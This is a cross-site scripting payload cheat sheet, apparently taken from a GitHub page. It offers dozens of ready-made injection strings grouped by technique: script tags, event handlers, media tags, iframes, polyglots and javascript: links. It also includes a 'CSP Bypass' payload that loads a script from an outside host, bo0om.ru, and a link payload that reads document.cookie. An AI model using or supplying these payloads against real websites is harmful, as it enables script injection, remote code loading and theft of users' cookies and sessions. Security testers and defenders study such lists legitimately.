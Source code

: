 # Unique XSS Payloads and Techniques

### Script Injection
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
- `<script>alert(1)</script>`
- `<script src=javascript:alert(1)>
- "><svg onload=alert(1)>
- <img src=1 onerror=alert(1)>
- javascript:alert(1)

"onmouseover="alert(1)
javascript:alert(1)`

### Event Handlers
- `onmouseover=alert(1)`
- `<body/onfocus=alert(1)>`
- `<marquee onstart=alert(1)>`
- `<x onclick=alert(1)>click this!`
- `<x onmousedown=alert(1)>click this!`
- `<brute onclick=alert(1)>click this!`

### Image and Media Tags
- `"'><img src="javascript:alert(1)">`
- `<img/src=1 onerror=window.alert(1)>`
- `<audio src=1 onloadstart=alert(1)>`
- `<video onloadstart=alert(1)><source>`

### Dynamic Elements
- `<svg/onload=alert(1)>`
- `<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(1)">`
- `<iframe src=javascript:alert(1)>`
- `<IFRAME SRC=# onmouseover="alert(1)"></IFRAME>`

### Forms and Links
- `<form><button formaction=javascript:alert(1)>click`
- `<IMG SRC="javascript:alert(1);">`
- `<acronym onmousedown="alert(1)">test</acronym>`

- `<img src="/" onerror='prompt(1)'>`
- `<svg/onload=eval(location.hash.substr(1))>#alert(1)`
- `<details/open/ontoggle=confirm('XSS')>`

## CSP Bypass
- `<script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>`

## Polyglot Payloads
- `javascript:"/*'/*\`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*<svg*/onload=alert()//`

## Inline HTML Injection
- `" onclick=alert(1)//">click`
- `" autofocus onfocus=alert(1) "`

## JavaScript Injection
- `'?prompt\`1\`?'`
- `"})},alert(1));(function xss() {//`
- `"-alert(1)-"`

## Hyperlink Tag Injection
- `javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")`
- `/x:1/:///%01javascript:alert(document.cookie)/`
